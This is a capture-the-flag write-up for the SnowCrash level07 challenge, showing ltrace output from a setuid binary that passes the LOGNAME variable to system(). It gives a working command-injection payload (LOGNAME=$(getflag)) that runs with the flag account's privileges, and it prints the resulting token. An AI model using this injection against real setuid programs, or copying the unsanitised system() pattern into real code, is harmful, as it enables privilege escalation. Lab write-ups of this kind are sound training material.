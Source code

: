 ##LEVEL07
```
    level07@SnowCrash:~$ ls -l
    total 12
    -rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

we have special permission on executable level07

```
    level07@SnowCrash:~$ ltrace ./level07
    __libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
    getegid()                                                                                   = 2007
    geteuid()                                                                                   = 2007
    setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                         = 0
    setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                         = 0
    getenv("LOGNAME")                                                                           = "level07"
    asprintf(0xbffff744, 0x8048688, 0xbfffff61, 0xb7e5ee55, 0xb7fed280)                         = 18
    system("/bin/echo level07 "level07
    <unfinished ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                      = 0
    +++ exited (status 0) +++
```

so our executable runs a sys call with /bin/echo LOGNAME
and we can see that in this 2 lines and by changing LOGNAME env varriable
```
    getenv("LOGNAME")                                                                           = "level07"
    system("/bin/echo level07 "level07
```
so we can set our env varriable accordenly

```
    level07@SnowCrash:~$ export LOGNAME=$\(getflag\)

    level07@SnowCrash:~$ ./level07
    Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
    level07@SnowCrash:~$ su level08
    Password:fiumuikeil55xe9cu4dood66h
```
